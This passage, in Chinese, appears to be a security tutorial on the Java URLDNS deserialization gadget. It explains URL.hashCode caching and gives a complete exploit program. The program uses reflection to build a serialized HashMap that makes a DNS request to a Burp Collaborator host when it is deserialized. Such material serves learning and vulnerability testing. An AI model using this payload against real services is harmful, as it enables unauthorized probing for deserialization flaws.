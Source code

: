 但是看这里hashCode函数

```
public synchronized int hashCode() {
    if (hashCode != -1)
        return hashCode;

    hashCode = handler.hashCode(this);
    return hashCode;
}
```

hashCode本身的值是-1

```
private int hashCode = -1;
```

然后回去调用handler.hashCode,所以这里通过反射去修改hashCode属性的值,先让他为-1以外的任何数,调用put方法后再修改回-1,这样在最后反序列化的时候他的值还是-1就会去触发DNS请求

URL类的构造函数很多就直接用最简单的这种

```
public URL(String spec) throws MalformedURLException {
    this(null, spec);
}
```

所以最后的exp

```
package URLDNS;

import java.io.*;
import java.lang.reflect.*;
import java.net.URL;
import java.util.HashMap;

public class serializetest {
    public static void serialize(Object obj) throws Exception{
        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        os.writeObject(obj);
    }

    public static void main(String[] args) throws Exception{

        HashMap map = new HashMap();
        URL url =new URL("http://110en57fndj6zv9umjox9w5in9tzho.burpcollaborator.net");//这里的URL直接用burp生成一个,在里面验证DNS请求
        Field hashCodefiled = url.getClass().getDeclaredField("hashCode");//获取hashCode属性
        hashCodefiled.setAccessible(true);//私有属性,需要暴力反射
        hashCodefiled.set(url,1);//先把hashCode的值设置为1
        map.put(url,123);//此时hashCode值为1,不会去触发DNS请求
        hashCodefiled.set(url,-1);//将hashCode的值设置为-1,这样反序列化的时候才会去触发DNS请求
        serialize(map);//序列化对象

        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("ser.bin"));
        fos.readObject();//反序列化对象,此时hashCode的值为-1,触发DNS请求
    }
}
```
